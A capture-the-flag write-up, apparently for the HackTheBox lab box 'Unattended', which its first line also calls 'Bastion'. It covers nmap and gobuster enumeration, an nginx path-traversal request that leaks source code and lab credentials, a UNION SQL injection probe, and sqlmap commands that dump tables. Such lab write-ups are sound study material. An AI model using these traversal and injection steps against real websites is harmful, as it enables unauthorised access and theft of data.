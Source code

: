 # Unattended

This is the write-up for the box Bastion that got retired at the 24th August 2019.
My IP address was 10.10.14.4 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.126    unattended.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/unattended.nmap 10.10.10.126
```

```markdown
PORT    STATE SERVICE  VERSION
80/tcp  open  http     nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.nestedflanders.htb/organizationName=Unattended ltd/stateOrProvinceName=IT/countryName=IT
| Not valid before: 2018-12-19T09:43:58
|_Not valid after:  2021-09-13T09:43:58
```

Adding **nestedflanders.htb** to my hosts file.

## Checking HTTP and HTTPS

Browsing to both sites with the IP address gives us a blank page and browsing to **www.nestedflanders.htb** gives us the default Apache2 page.
We will run _gobuster_ against this to get any directories:
```markdown
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://10.10.10.126/
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u https://10.10.10.126/ -k
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://www.nestedflanders.htb -k
```

The pages with SSL need the _-k_ parameter to skip SSL verification. We get the following directories:
- /.htacces
- /.hta
- /.htpasswd
- /dev
- index.html
- index.php

All of them give me the HTTP code _403 Forbidden_ except for **/dev** that gives us a _301 Moved Temporarily_ and says:
> dev site has been moved to his own server

On **index.php** we find a real web page with more information.

```markdown
### main (/index.php?id=25)
Hello visitor,
we are very sorry to show you this ridiculous page but we had to restore our website to 2001-layout.
As a partial recover, we offer you a printed portfolio: just drop us an email with a contact request. 

### about (/index.php?id=465)
Hello visitor,
our Company is world wide leading expert about Nesting stuff.
We can nest almost everything after or before anything based on your needs.
Feel free to contact us with usual email addresses, our contact form is currently offline because of a recent attack. 

### contact (/index.php?id=587)
Hello visitor,
thanks for getting in touch with us!
Unfortunately our server is under *heavy* attack and we disable almost every dynamic page.
Please come back later.
```

The most interesting about this, is that those 3 pages all have a different value in the _id_ query.
This page gets confused when we put a trailing _single quote_ at the end of the query:
```markdown
hxxps://www.nestedflanders.htb/index.php?id=465'
```

This brings us back to to the main page so we definitely got a **SQL Injection** here.

When we examine the _/dev_ directory in Burpsuite we can see it adds a trailing slash at the end of the path and that is the location were we are redirected.
As we know that this is nginx, we can abuse a misconfiguration that [breaks the parser logic](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf) of that.
In short it looks like this:
```markdown
GET /dev../html/index.php 
```

And this gives us the source code of **index.php**. This file can be found in this repository as it has important information.
- $username = "nestedflanders";
- $password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
- include "6fb17817efb4131ae4ae1acae0f7fd48.php";
  - /* removed everything because of undergoing investigation, please check dev and staging */


### SQL Injection

If we try outsome SQLi we find out that we get different responses with **UNION Injections**. For example like this, we get no content on the page:
```markdown
GET /index.php?id=465'+union+select+1--+-
```

Lets send the request to SQLMap:
```markdown
GET /index.php?id=465 HTTP/1.1
Host: www.nestedflanders.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=pj052g0hbe1jsbslvn86d0bg51
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
```markdown
sqlmap -r id.req -p id --batch

sqlmap -r id.req -p id --batch --dbs
- We get the table neddy (that we also can find in the source code)

sqlmap -r id.req -p id --batch -D neddy --tables
```

We got the tables from SQLMap:
```markdown
+--------------+
| config       |
| customers    |
| employees    |
| filepath     |
| idname       |
| offices      |
| orderdetails |
| orders       |
| payments     |
| productlines |
| products     |
+--------------+
```


